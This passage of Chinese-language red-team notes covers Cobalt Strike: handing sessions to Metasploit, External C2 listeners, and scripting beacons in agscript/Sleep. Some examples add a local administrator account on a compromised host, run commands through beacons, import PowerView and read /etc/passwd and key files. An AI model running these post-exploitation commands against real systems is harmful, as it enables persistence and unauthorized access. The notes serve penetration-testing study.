        exploit -j
        ```

- 在CobaltStrike上的操作

  - 开启⼀个监听器Listener，HOST和PORT填我们MSF监听的地址(这⾥需要注意，如果我们的MSF也是在内⽹中的话，需要将MSF的端⼝映射到公⽹地址)
  - 这⾥⼀定要注意，创建的Listener是foreign!
  - 然后选中计算机，右键->Spawn，选择刚刚创建的监听器MSF，然后我们的MSF即可看到成功获取了meterpreter会话


### cs-》empire

## 外置C2

外置 C2 是一种规范，允许第三方程序充当 Cobalt Strike 的 Beacon payload 的通信层。这些第三方程序连接到Cobalt Strike 来阅读预定使用的帧，并使用以此种方式控制的 payload 的输出写帧。这些第三方程序使用外置 C2 服务器来与你的 Cobalt Strike 团队服务器交互。转到 Cobalt Strike → Listeners ，点击 Add ，选择 External C2 作为你的 payload。


外置 C2 接口有两个选项。Port(Bind) 指定外置 C2 服务器等待连接的端口。勾选 Bind tolocalhost only 以使外置 C2 服务器仅本地主机。
外置 C2 监听器与其他 Cobalt Strike 监听器不同。这个监听端口其实是一个数据接收端口，没有相关的其他监听器的功能，所以不能用来发一些后渗透指令过去。

## c2的搭建/隐藏

### 域前置（Domain Fronting）

### Tor Fronting

## CrossC2配置


## cs脚本

> 一些脚本
>
> https://github.com/Mikasazero/Cobalt-Strike
>
> https://github.com/harleyQu1nn/AggressorScripts
>
> https://github.com/yanghaoi/CobaltStrike_CNA
>
> 官方开发文档：
>
> http://sleep.dashnine.org/manual/  sleep语言的：
>
> https://trial.cobaltstrike.com/aggressor-script/other.html cs接口的
>
> 看完官方文档，再看几个别人写的脚本，就会了。
>
> 脚本开发
>
> https://xz.aliyun.com/t/11404
>
> https://xz.aliyun.com/t/5887
> https://422926799.github.io/posts/e5e87074.html
>
> https://wiki.wgpsec.org/knowledge/intranet/Aggressor-script.html
>
> 
>
> vscode商店有对应插件，但是只能代码高亮，看看能不能把文档加进去。https://github.com/Twi1ight/vscode-language-aggressorscript


### cs的脚本语言-agscript

agscript是一种简单脚本语言，主要用于红队编写针对肉鸡的攻击脚本。 它有两个作用，一是可以用来对自己的肉鸡做持久性控制，二是可以用来扩展或修改Cobalt Strike客户端以满足您的个性化需求。

agscript是以Cobalt Strike 3.0为基础的。 Cobalt Strike 3.0中绝大部分菜单/按钮事件都是由agscript引擎支撑。 Strategic Cyber LLC尚未为Cobalt Strike的大多数功能写API，也就是说，agscript目前仍处于起步阶段。 在未来，我们也期待看到agscript的发展壮大。这份文档也会**随着时间的推移而变动**。

加载脚本：

- Cobalt Strike客户端 -> Script Manager and press Load功能。

脚本控制台：

- Cobalt Strike提供了交互式的脚本控制台。 通过控制台可跟踪，配置，调试以及管理脚本。可以通过View- > Script Console获得进入agscript控制台。

- 基本命令：输入help

    - | 命令    | 参数                              | 作用                                                         |
        | ------- | --------------------------------- | ------------------------------------------------------------ |
        | ?       | `? int(1) == int(2)`返回为False： | ? 进行一个简单的判断，返回值为True或者False                  |
        | e       | 例如 `e println("hello woed")`:   | e 执行我们写的代码，相当于交互模式,如果不加上 `e` 的话是无法执行的 |
        | help    |                                   | 列出所有命令                                                 |
        | load    | ./xxx/xx/a.cna                    | 加载脚本                                                     |
        | ls      |                                   | 查看已加载的脚本                                             |
        | proff   | script.cna                        |                                                              |
        | profile | script.cna                        | 统计 cna 脚本使用了哪些 Sleep的语法：                        |
        | pron    | script.cna                        |                                                              |
        | reload  | script.cna                        | 重新加载脚本                                                 |
        | troff   | script.cna                        | 关闭函数跟踪，也就是我们不显示函数运行的具体情况：           |
        | tron    | script.cna                        | 开启函数跟踪，显示我们运行时的具体情况：                     |
        | unload  | script.cna                        | 卸载脚本                                                     |
        | x       | 2+2                               | 执行脚本并返回结果                                           |

**命令行使用Cobalt Strike：**

- (注意：cmd得进入到agscript的路径里，否则会出现无法加载主体的情况)您也许会希望在在没有GUI的情况下启动Cobalt Strike，客户端压缩包中的agscript这个脚本文件能够满足您的需求，连接命令：

- ```cmd
    ./agscript [host] [port] [user] [password]
    远程连接cs并执行脚本
    ./agscript [host] [port] [user] [password] [/path/to/script.cna]
    ```

### Sleep语言基础

- agscript是基于Raphael Mudge的Sleep语言的二次开发的。(译者注:Sleep是一种基于java开发的脚本语言)
    原手册见：http://sleep.dashnine.org/manual

- 不知道为什么cs下的agscript .bat接受不到命令行参数，所以使用了sleep.jar（http://sleep.dashnine.org/download/sleep.jar）来运行cna文件。

    - ```
        java -jar .\sleep.jar
        	>> Welcome to the Sleep scripting language
        	> load test.cna
        ```

    - 解决方法：

        - agscript .bat文件改成`java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -classpath ./cobaltstrike.jar aggressor.headless.Start %*`

        - 原本的agscript .bat最后是`$*`接受命令行参数（也许是macos下的），但是windows cmd下是用`%*`来接受命令行参数的。

- `Sleep`能做的`agscript`都能做，下面是一些注意事项：

- `Sleep`的语法，运算符甚至俚语都与`Perl`极其类似,简单说一个他们的区别,**`Sleep`需要的语句/表达式之间需要有空格**。

    - ```
        $x=1+2; # this will not parse!!
        $x = 1 + 2; # 正确的做法
        ```

#### 数据类型和数据结构：

- 数字 $      

- 字符串 $

- Arrays @    类似python的list，元素类型可以不一样

- Lists 

- Stacks

- Sets

- Hashs %    类似python的字典

- ```php
    #字符串
    $name = "kris";         		 #字符串变量的命名
    $name = "kris"."hello";  		 #. 字符串拼接，不需要空格
    #\$来转义$（在字符串中，$a就是$a的值），同时也支持\n等功能，
    on ready {
        $a = "data"."data";
        $a = replace($a, "data", "Fk");  #字符串替换 
        println($a);
        closeClient();
    }
    strlen($data);#获取字符串长度 
    substr($data, 0, 3)#获取字符串指定位置 
    println(join('|', @("ape", "bat", "cat", "dog"))); #数组转字符串 ,join(分隔符,)
    #字符串转数组， 
    $a = "data".".data";
    @b = split('\.', $a);  #按照.来切分字符串
    #判断字符串是否在数组里面
    $data = @("abc", "bqe");
    $str = "abc";
    if ($str in $data)  {
        println(111);
    }
    
    
    
    
    
    #整数
    $age = 18; # 数字型变量命名
    
    #Arrays类型：  
    #可以用$a当作变量，也可以使用他们本身的前缀，比如@a,%a。但是前后变量不能改变，不能前面$a创建了变量，后面就用@a使用变量了
    $a = @("kris",18); # Sleep的阵列（列表）是类似python的那种任何元素的集合，不需要元素的类型统一。也即是一种复合数据类型。
    println($a[0]); 		#下标输出信息
    push($a,"jack")   		#末尾添加元素，类似python append，
    add($a, "wYYYYYYYYYYYYYYYYYYYYYYYY", -1); #数组添加，默认在0位添加，也就是开头，-1就是末尾, 需要自己指定位置。
    remove($a,-1,"wYYYYYYYYYYYYYYYYYYYYYYYY")    # 需要指定删除的内容，下标，且两个要对应起来，不对应也可以删除掉，应该是更具内容判定的。
    
    
     
    #Hashs字典类型
    %d["name"] = "kris";
    %d["age"] = 18;
    %d["address"] = "sichuan"; 				#使用%号创建，有点和python的字典类似   
    println("Dict is ".%d);  				#输出字典
    removeAt(%d, "name");					 #删除字典的某个key
    removeAt(%a, "data", "data2");   		#或者删除多个key
    
    ```

#### 遍历

- ```php
    #遍历数组
    @name_list = @('kris',18,'sichuan');
    foreach $var (@name_list)   #()不能少
    {
       println($var);
    }
    
    #遍历hash字典。
    foreach $data (keys(%foo)){ 
        println("$data =>".%foo[$data]); 
    }
    #遍历字典第二个方法
    foreach $key = > $value (%foo) {
        println("$key => $value");
    }
    ```

#### 循环

```
```


#### 打印：

- 有一个和println类似的函数叫warn，不同的是warn输出的内容中包含了当前代码的文件名和行数，一般用于调试错误

#### 函数：

- ```php
    #函数定义，参数传递使用$i。传给函数的参数标记为$1,$2,一直到$n。函数可以接受无数个参数。
    #变量@_是一个包含所有参数的数组，$1，$2等变量的更改将改变@_的内容。
    sub say_hello{
    	println("hello ".$1);# 定义一个函数，打印hello + 得到的参数
    }
    sub addTwoValues {
        println($1 + $2);
    }
    
    #函数的引用
    $addf = &addTwoValues;
    
    #调用并传参可以这样写：
    [$addf : "3", 55.0];
    [&addTwoValues : "3", 55.0];
    [{ println($1 + $2); } : "3", 55.0];
    addTwoValues("3", 55.0);
    
    ```

#### 循环：

```
#iff,将比较作为第一个参数，并仅当条件为真时，将其返回第二个参数。仅当条件为false时，就会返回第三个参数,三目运算符
#闭包：lambda(&closure, [$key => "value", ...])   （传入函数体，）

sub range {
    # Returns a new function that returns the next number in the    # range with each call.  Returns $null at the end of the range    # Don't worry, closures will come in the next chapter :)    
    return lambda( {
        return iff($begin <= $end, $begin++  -  1, $null);
    }, $begin = > $1, $end = > $2);
}

on ready {
    foreach $value (range(1, 10)) {
        println($value);
    }

    closeClient();
}
```


#### 逻辑运算

- | ==   |                 |
    | ---- | --------------- |
    | !=   |                 |
    | <    |                 |
    | >    |                 |
    | <=   |                 |
    | >=   |                 |
    | !    | !a 中间没有空格 |

- 字符串比较：

    - | Operator                                           | Description                                |
        | :------------------------------------------------- | :----------------------------------------- |
        | eq                                                 | equal to                                   |
        | ne                                                 | not equal to                               |
        | lt                                                 | less than                                  |
        | gt                                                 | greater than                               |
        | isin                                               | is substring v1 contained in string v2     |
        | [iswm](http://sleep.dashnine.org/manual/iswm.html) | is string v1 a wildcard match of string v2 |

- 判断是不是数组/函数/hash/数字..

    - | -isarray    | is v1 a scalar array         |
        | ----------- | ---------------------------- |
        | -isfunction | does v1 reference a function |
        | -ishash     | is v1 a scalar hash          |
        | -isletter   | is v1 a letter               |
        | -isnumber   | is v1 a number               |
        | -isupper    | is v1 an upper case string   |
        | -islower    | is v1 a lower case string    |
        | -istrue     | is v1 "true"                 |

#### 文件读写

```
逐行读取文件 
$handle = openf("/etc/passwd");
while $text (readln($handle)) {
    println("Read: $text");
}

一次性读完
$handle = openf("/path/to/key.pem");
$keydata = readb($handle, - 1);
closef($handle);

写入文件 
$handle = openf(">data.txt");
println($handle, "this is some data.");
closef($handle);

写入文件方法2 
$handle = openf(">out.txt");
writeb($handle, $data);
closef($handle);
```

#### 更多操作参考文档

### CS开发 

> 官方文档
>
> https://trial.cobaltstrike.com/aggressor-script
>
> 一定要看https://trial.cobaltstrike.com/aggressor-script/functions.html 所有的方法都在里面

#### 复用代码：include

- 感觉是个宏，就是把include的代码放到对应位置。

#### 文件路径:

任何使用到本地文件的都需要，`script_resource(path)`

```
bpowershell_import($1, script_resource("./powershell/PowerView.ps1"));
```

#### 命令快捷键

```
#命令是给cs用的，命令名字叫N。
command N {
	say_hello($1); # 定义一个命令，并且将接受到的第一个参数传递给 say_hello函数。
}

在cs下
aggressor> N jack
hello jack
```


#### 控制台颜色设置

如果你想给Cobalt Strike的控制台添加一些色彩，通过\c，\U和\o转义即可告诉Cobalt Strike如何格式化文本。 值得提醒的是这些转义仅在双引号字符串内有效。\cX就是告诉Cobalt Strike你想输出什么颜色，X是颜色的值


```
\U是告诉控制台添加下划线，\o则是重置这些花里胡哨的东西。
```


#### 快捷键绑定

```
bind Ctrl + H {
    show_message("DIO");
}
```

快捷键可以是任何ASCII字符或特殊键，快捷方式可能会应用一个或多个修饰符，修饰符修饰符仅为以下几个特定按键：Ctrl，Shift，Alt，Meta。脚本可以指定修饰符+键。
按Ctrl+H效果如下

#### 弹出菜单

- 使用agscript可以添加或是重新定义CoblatStrike菜单，**popup这个关键字即为Hook弹出菜单的语句。**

- 可以popup的地方

    - | Hook                 | Where                         | Arguments                                                    |
        | :------------------- | :---------------------------- | :----------------------------------------------------------- |
        | aggressor            | **Cobalt Strike** Menu        |                                                              |
        | attacks              | **Attacks** Menu              |                                                              |
        | beacon               | [session]                     | $1 = selected beacon IDs (array)                             |
        | beacon_top           | [session]                     | $1 = selected beacon IDs (array)                             |
        | beacon_bottom        | [session]                     | $1 = selected beacon IDs (array)      beacon主机的右键菜单，传入的第一个参数是beacon的bid，     常定义`$bid = $1;` |
        | credentials          | Credential Browser            | $1 = selected credential rows (array of hashes)              |
        | filebrowser          | [file in file browser]        | $1 = beacon ID, $2 = folder, $3 = selected files (array)     |
        | help                 | **Help** Menu                 |                                                              |
        | listeners            | Listeners table               | $1 = selected listener names (array)                         |
        | pgraph               | [pivot graph]                 |                                                              |
        | processbrowser       | Process Browser               | $1 = Beacon ID, $2 = selected processes (array)              |
        | processbrowser_multi | Multi-Session Process Browser | $1 = selected processes (array)                              |
        | reporting            | **Reporting** Menu            |                                                              |
        | ssh                  | [SSH session]                 | $1 = selected session IDs (array)                            |
        | targets              | [host]                        | $1 = selected hosts (array)                                  |
        | targets_other        | [host]                        | $1 = selected hosts (array)                                  |
        | view                 | **View** Menu                 |                                                              |

- 一般我们都会在上线的主机上添加菜单：

    - ```
        popup beacon_bottom {
        	
        	item("菜单名字",{需要执行的代码}) #创建一个菜单
        	separator(); #分割线
        	item "菜单名字" {需要执行的代码}  #创建一个菜单
        }
        
        ```
    
- 看一个在help上添加菜单的demo代码：

```
popup help {
    item("&blog", {
        url_open("https://422926799.github.io");
    }

    );
    item("&System Information", {
        openSystemInformationDialog();
    }

    );
}
```


#### 添加子菜单

- ```
    popup help {
        item("&blog", {
            url_open("https://422926799.github.io");
        }
    
        );
        menu "&Testing" {
            #Testing菜单下会有blog 
            item("&blog", {
                url_open("https://422926799.github.io");
            }
    
            );
        }
        menu "一级菜单名字"{
    		放二级菜单，可以嵌套，
        }
    
    }
    ```

- 

#### 事件管理

- 使用on这个关键字可以为事件定义处理程序，

    - ```
        当Cobalt Strike连接到团队服务器并准备代表您行动时，就绪事件将触发
        on ready {
            show_message("舰长，我的狐狸耳朵，喜欢吗？");
        }
        ```

    - 使用* meta-event可查看再Cobalt Strike中发生的所有事件。

        - ```
            on  * { #加载脚本的时候就运行
                local('$handle $event $args');
                $event = shift(@_);
                $args = join(" ", @_);
                $handle = openf(">>eventspy.txt");
                writeb($handle, "[ $+ $event $+ ] $args");
                closef($handle);
            
            ```

#### CS数据模型


#### beacon操控

**beacon的右键菜单**: popup beacon_bottom

```
popup beacon_bottom{
    item "query user"{
        prompt_text("Query User", "administrator", lambda({
            bshell(@ids, "net user ".$1);
        }, @ids => $1));
    }
}
```

##### 打印信息到beacon的终端：blog

- ```
    $1 - the id for the beacon to post to，这个beacon的id
    $2 - the text to post，需要输出的信息。
    alias demo {
    	blog($1, "I am output for the blog function");
    }
    ```

##### 创建命令给beacon终端使用：alais

- **alias**：类似于在agscript控制台定义命令的command一样，不过alias是给beacon控制操控的

- ```
    alias test{
        bshell!($1, "whoami");
    }
    ```


##### 在beacon中运行cmd命令：bshell

- Ask Beacon to run a command with cmd.exe

- ```
    $1 bid数组或单个bid
    $2  命令字符串
    
    alias adduser {
    	bshell($1, "net user $2 B00gyW00gy1234! /ADD");
    	bshell($1, "net localgroup \"Administrators\" $2 /ADD");
    }
    ```

#####  切换becaon的shell的当前目录：bcd

- ```
    $1 bid数组或单个bid
    $2  命目录字符串
    
    # create a command to change to the user's home directory
    alias home {
    	$home = "c:\\users\\" . binfo($1, "user");
    	bcd($1, $home);
    }
    ```

##### 导入ps1文件到beacon中：bpowershell_import

##### 执行poweshell命令：bpowershell

##### 传递exe文件并执行：bexecute_assembly

### 输入，输出框

#### 输入框-dialog

```shell
定义一个输入框 
$dialog = dialog("这是对话框的标题", %(username => "root",password => ""),  &show); 
#在一些时候，我们想整一个输入框。让用户输入一些东西的时候，可以使用 dialog 数据模型进行编写，他需要接受三个参数
`$1` 对话框的名称
`$2` 对话框里面的内容，可以写多个
`$3` 回调函数，当用户使用 dbutton_action 会调用的函数，$1 is a reference to the dialog. $2 is the button name. $3 is a dictionary that maps each row's name to its value.
```

drow_text是往输入框里面写东西，语法如下：

```shell
drow_text($dialog,"默认输入","文本框前面的话");
$1 - a $dialog 对象
$2 - the name of this row
$3 - the label for this row
$4 - Optional. The width of this text field (in characters). This value isn't always honored (it won't shrink the field, but it will make it wider).
```

 dialog_description是描述你的输入框是干啥的

```
dialog_description($dialog, "一段描述");
```

dbutton_action 将操作按钮添加到dialog 中，当点击这个按钮以后，会关闭对话框，并且传输数据到回调函数中

```shell
dbutton_action($dialog,"按钮的名字")
```

dbutton_help 将help按钮添加到对话框中，点击help跳转网页去

```shell
dbutton_help($dialog,"https://www.wgpsec.org")
```

dialog_show 显示对话框

```
dialog_show($dialog);
```

```
popup test {
	item("&收集信息",{dialog_test()}); # 建立一个菜单栏目，点击收集信息时就调用show函数
}

menubar("测试菜单","test"); # 注册菜单

sub show {
	show_message("dialog的引用是：".$1."\n按钮名称是：".$2);
	println("用户名是：".$3["user"]."\n密码是：".$3["password"]);# 这里show函数接收到了dialog传递过来的参数，分

}
sub dialog_test {
	$info = dialog("这是对话框的标题",%(username => "root",password => ""),&show); #第一个是菜单的名字，第二个是我们下面定义的菜单显示内容的默认值，第三个参数是我们回调函数，触发show函数的时候显示，并将我们的输入值传递给他
	drow_text($info,"user","输入用户名："); # 设置一个用户名输入条
	drow_text($info,"password","输入密码"); 
	dbutton_action($info,"马上起飞！"); # 点击按钮，触发回调函数
	dbutton_help($info,"http://www.wgpsec"); # 显示帮助信息
	dialog_show($info); # 显示文本输入框
}
```

##### prompt_text: 单个文本输入框

- 弹出一个输入框，用户需要输入文本，然后文本字符串就会被当作$1，传入到回调函数中。

- ```
    Arguments
    $1 - text in the dialog
    $2 - default value in the text field. 默认值
    $3 - a callback function. Called when the user presses OK. The first argument to this callback is the text the user provided.
    
    prompt_text("What is your name?", "Cyber Bob", {
    	show_mesage("Hi $1 $+ , nice to meet you!");
    });
    ```

- 
